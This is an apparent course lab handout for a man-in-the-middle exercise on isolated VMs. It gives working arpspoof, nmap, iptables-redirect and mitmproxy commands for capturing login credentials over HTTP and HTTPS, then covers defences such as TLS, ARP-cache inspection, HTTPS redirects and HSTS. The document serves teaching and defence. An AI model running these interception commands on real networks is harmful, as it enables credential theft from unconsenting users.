


# Tasks

You don't need to build the virtual machine images yourself, but if you
would like to know how we build it, you can checkout this repo:
<https://github.com/lrx0014/MITM-Lab>.

## Environment Setup

{#fig:vm width="80%"}

We recommend using our pre-configured Virtual Machine images (.ova) to
avoid installing and configuring the required tools manually. You can
download them here: [**Click
here**](https://drive.google.com/drive/folders/1qfoB2r840WXnAG2EsF0gyGfLKoWyF8mM?usp=sharing).

If you don't want to import all three VMs, you can just import the
Server (Bob) VM. For the other roles, you can use your own VMs: any OS
with Chrome or Firefox for the User, and preferably Kali Linux for the
Attacker. However, be aware that this custom setup might cause
unexpected issues during the lab, which you'll have to troubleshoot
yourself.

You can import them into your VMWare or VirtualBox (VMWare is
recommended because these images are exported from VMWare Workstation).
When importing each image, please set their virtual network adapters to
**Host-Only** mode to isolate them from the public network.

As shown in Figure [1](#fig:vm){reference-type="ref"
reference="fig:vm"}, a completely isolated virtual network is used to
ensure ethical safety. Three virtual machines will be deployed:

-   **Victim's VM (Alice)**: Used as the "user" by accessing the site
    through a browser inside.

-   **Server's VM (Bob)**: A server running Nginx with a simple HTTP
    login page (we provide the sample code).

-   **Attacker's VM (Eve)**: Kali Linux with the necessary tools
    installed.

Then, you can power up these VMs to start the lab environment.

The username and password for each VM are as shown.

 | **VM**          | **username**  | **password**  |
 | ----------------| --------------| --------------|
 | User (Alice)    | `alice`       | 123456        |
 | Server (Bob)    | `bob`         | 123456        |
 | Attacker (Eve)  | `eve`         | 123456        |

-   For each node:

    -   Run `ip addr` to verify IPv4 assignment. If no IPv4 address is
        listed or the interface is DOWN, use the command below to
        re-enable it.

        ```bash
        $ sudo ip link set <interface_name> up
                $ sudo dhcpcd <interface_name>
        ```

        `<interface_name>` could be something like `enp0s17`, `en33`, or
        similar. This issue sometimes occurs when using VirtualBox.

-   On the **server node (Bob)**:

    -   the victim web app:

        ```bash
        # check ip address of this server VM, remember it as <server_ip>
                $ ip addr
                
                # and you can review the lab materials if you want
                $ cd MITM-Lab
                $ ls
        ```

-   On the **user node (Alice)**:

    -   Add a mapping in /etc/hosts to `<server_ip>` (\<server_ip\>
        $\rightarrow$ victim.com).

    -   Browse to `http://victim.com/` to reach the simulated site.

## Eavesdropping Attack on HTTP Traffic

In this task, you will act as an attacker role on the Kali VM (Eve),
using specific tools to perform ARP spoofing and network request
eavesdropping on user's HTTP requests, attempting to steal user login
information (under the HTTP protocol, without TLS protection).

Execute the commands below on the attacker's VM (Kali Linux).

We suppose here that the attacker is unaware of information about other
hosts, therefore the attacker needs to gather intelligence on the
sub-network first.

### Subnet scanning and port scanning

On Attacker's VM (Eve):

```bash
# scan the entire subnet to find the victim hosts (alice and bob)
    # this command lists all online hosts in the subnet
    sudo arp-scan --interface=eth0 --localnet
        
    # scan target host ports to find exploitable services
    # inspect each target host to find the HTTP server
    sudo nmap -sS -sV -O --version-all --reason -p- <target-ip>
```

please record and write down your results, we will use these IP
addresses next step. (following is just an example, your VMs' actual IPs
may be different).

| **Host**      | **IP**         | **example**     |
| --------------| ---------------| ----------------|
| User (Alice)  | `<user_ip>`    | 192.168.56.101. |
| Server (Bob)  | `<server_ip>`  | 192.168.56.102. |

### Execute Attack

```bash
# check these tools are installed
    which arpspoof
    
    # check interface name (should be eth0)
    ip -o -4 addr show

    # enable ip forward
    sudo sysctl -w net.ipv4.ip_forward=1
        
    # you need 2 new terminal windows concurrently for ARP spoofing
    # open a new terminal (terminal A)
    sudo arpspoof -i eth0 -t <server_ip> <user_ip>
    
    # open a new terminal (terminal B)
    sudo arpspoof -i eth0 -t <user_ip> <server_ip>
```

At this point, acting as the attacker, you can intercept and forward all
network traffic between Alice and Bob. Next, you can use **WireShark**
to observe the HTTP requests between them.

Open WireShark on Kali Linux (Your Attacker's VM), and select current
in-use network interface and apply a filter *http.request.method ==
\"POST\"*. And then, on the victim user VM (Alice), open the browser and
go to: *http://victim.com* (HTTP), fill out the simulated login form,
and submit it, then get back to wireshark, if everything is correct, you
should be able to capture the login information (As shown below in
Figure [2](#fig:wireshark){reference-type="ref"
reference="fig:wireshark"}).

{#fig:wireshark width="80%"}

## Enable HTTPS on Server Side

In this task, you are asked to modify and configure the server with a
self-signed TLS certificate and enable HTTPS. Repeat the attack in
previous task and verify that the traffic is encrypted and unreadable
using WireShark.

We prepared a lab Root CA for you. The victim VM (Alice) already trusts
this CA if you are using our VM images. Follow the instructions below to
generate a server certificate based on this CA and enable it in your
Nginx server.

### review prepared rootCA and configuration files

On Server's VM (Bob):

```bash
$ cd ~/MITM-Lab/lab-certs
    $ ls
```

### generate a server key

```bash
$ openssl genrsa -out server.key 2048
```

### generate a CSR

A CSR (Certificate Signing Request) is a file generated to request a
digital certificate, most commonly an SSL/TLS certificate, from a
Certificate Authority (CA). It contains your public key and identifying
information like your common name (domain) and organization details.

```bash
# replace <server_ip> with your actual server's ip
    $ vim server_openssl.cnf

    # create csr
    openssl req -new -key server.key -out server.csr -config server_openssl.cnf

    # (optional) verify the name is correct
    $ openssl req -in server.csr -noout -text | grep -A2 "Subject Alternative Name"
```

### issue the server certificate

```bash
# replace <server_ip> with your actual server's ip
    $ vim v3ext.cnf

    # sign
    $ openssl x509 -req -in server.csr \
      -CA rootCA.pem -CAkey rootCA.key \
      -CAcreateserial -out server.crt \
      -days 365 -sha256 -extfile v3ext.cnf

    # (optional) verify the signature is correct
    # should print: server.crt: OK
    $ openssl verify -CAfile rootCA.pem server.crt
```

### enable HTTPS for Nginx

```bash
# copy these certificates into nginx
    $ sudo mkdir -p /etc/nginx/ssl
    
    # assume server.crt, server.key, rootCA.pem are in current path
    $ sudo cp ./server.crt /etc/nginx/ssl/
    $ sudo cp ./server.key  /etc/nginx/ssl/
    $ sudo cp ./rootCA.pem  /etc/nginx/ssl/
    $ sudo chown root:root /etc/nginx/ssl/*
    $ sudo chmod 600 /etc/nginx/ssl/server.key
    
    # create a https entry in nginx server
    # we've already prepared one for you
    $ cd ..
    $ sudo cp nginx_conf/nginx-https.conf /etc/nginx/sites-available/lab-https.conf
    
    # you can open it to check if everything looks correct
    $ sudo vim /etc/nginx/sites-available/lab-https.conf
    
    # reload nginx
    $ sudo ln -s /etc/nginx/sites-available/lab-https.conf /etc/nginx/sites-enabled/
    $ sudo nginx -t
    $ sudo systemctl restart nginx
```

### access the website by HTTPS

Get back to User's VM (Alice) and use web browser to visit:
**https://victim.com**. If everything goes well, you should be able to
see a padlock next to your browser's address bar which says that the
connection is secure (Figure [3](#fig:secure){reference-type="ref"
reference="fig:secure"}).

{#fig:secure width="50%"}

### repeat the eavesdropping attack on HTTPS

Now go back to Attacker's VM (Eve) and repeat the eavesdropping action
in the previous task, to observe if you can read the encrypted data on
WireShark. You can use the filter query: *tcp.port == 443* to filter the
HTTPS traffic between Alice and Bob. (As shown below in
Figure [4](#fig:https_wireshark){reference-type="ref"
reference="fig:https_wireshark"}).

{#fig:https_wireshark width="80%"}

## Eavesdropping Attack on HTTPS (TLS) Traffic

In this task, we use a tool named '**mitmproxy**' to perform an
eavesdropping attack on HTTPS protocol.

### setup eavesdropping attack

On Attacker's VM (Eve):

**NOTE**: Keep the two *arpspoof* processes running as in the previous
tasks.

```bash
# HTTPS redirect
    $ sudo iptables -t nat -A PREROUTING -i eth0 -p tcp -d <server_ip> --dport 443 -j REDIRECT --to-port 8080

    # (optional) confirm
    $ sudo iptables -t nat -L PREROUTING -n -v --line-numbers | grep <server_ip>

    # start mitmproxy
    $ sudo mitmproxy --mode transparent --listen-port 8080 --showhost --ssl-insecure
```

And then, on the victim user VM (Alice), open the browser and go to:
**https://victim.com**, and now, you may see a security warning page,
try to explain why (you can check the certificate information by
clicking the padlock button on the address bar).

then ignore the privacy warning anyway, fill out the simulated login
form and submit it, then get back to the attacker's VM (kali linux), if
everything is correct, you should be able to capture the encrypted login
information on **mitmproxy**
(figure-[5](#fig:https_mitmproxy){reference-type="ref"
reference="fig:https_mitmproxy"}).

{#fig:https_mitmproxy width="50%"}

### (Optional but recommended) Clean the Lab environment

After you finish this task and stop mitmproxy, there is an optional
cleanup process to remove the lab's iptables rules. You can skip this
for now, but if you encounter any network issues between Alice and Bob
in later tasks, you should run this cleanup.

```bash
# remove all iptables rules
    $ sudo iptables -t nat -F PREROUTING
```

## Mitigating and Defending Against MITM Threats

In this task, we will discover and defend against network security
threats by enabling HSTS and running an ARP scan to detect existing
ARP-spoofing activity.

### how to detect arp-spoofing

On User's VM (Alice):

You can run the following commands on the User's VM (Alice).

```bash
$ ip neigh show
```

The command *ip neigh show* is used in Linux to display your system's
neighbor table, which is more commonly known as the ARP (Address
Resolution Protocol) cache. In short, it shows a list of devices on your
local network (your \"neighbors\") and maps their IP addresses to their
physical MAC addresses.

If an ARP-spoofing attack is present, you may observe suspicious
MAC-to-IP mappings, for example, multiple IP addresses mapped to the
same MAC address, which is a strong indicator of ARP spoofing. You can
also stop the ARP-spoofing process on the attacker VM (Eve) and see if
that affects the observed outputs.

### Ensure HTTP-to-HTTPS Redirect

On Server's VM (Bob):

We redirect HTTP (port 80) to HTTPS (port 443) to force all connections
to be secure and encrypted. Most users don't type https:// when visiting
a site. They just type example.com. By default, most old browsers will
first try to connect via HTTP (port 80). Also, old links from other
websites might still point to your http:// address. The redirect acts as
a permanent gatekeeper. It instantly catches all these insecure requests
and tells the browser, \"You are in the wrong place. Go to the secure
https:// version instead.\".

To enable the HTTP-to-HTTPS Redirect, you need to modify your nginx
configuration at /etc/nginx/sites-available/victim, which is the server
listening on port 80 and serving the HTTP service.

```bash
# open the conf file
    $ sudo vim /etc/nginx/sites-available/victim
    
    # delete all the 'location' configs, and replace it with:
    # Redirect all HTTP traffic to HTTPS with a 301
    return 301 https://$host$request_uri;

    # restart nginx
    $ sudo nginx -t
    $ sudo systemctl restart nginx
```

Then, go back to your User's VM (Alice), and try to visit
http://victim.com/ on web browser, to see if it redirects to https://
site automatically.

### enable HSTS on Nginx Server

\"Enabling HSTS on your Nginx server is really easy. You just need to
add this line to your Nginx site config
*/etc/nginx/sites-available/lab-https.conf*.

```bash
# open the conf file
    $ sudo vim /etc/nginx/sites-available/lab-https.conf
    
    # then, this is all you need. add HSTS header into the .conf file
    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;

    # restart nginx
    $ sudo nginx -t
    $ sudo systemctl restart nginx
```

Go back to User's VM (Alice), and confirm that your server is sending
the correct Strict-Transport-Security header in its response:

```bash
$ curl -s -I "https://victim.com" | grep -i "strict-transport-security"
```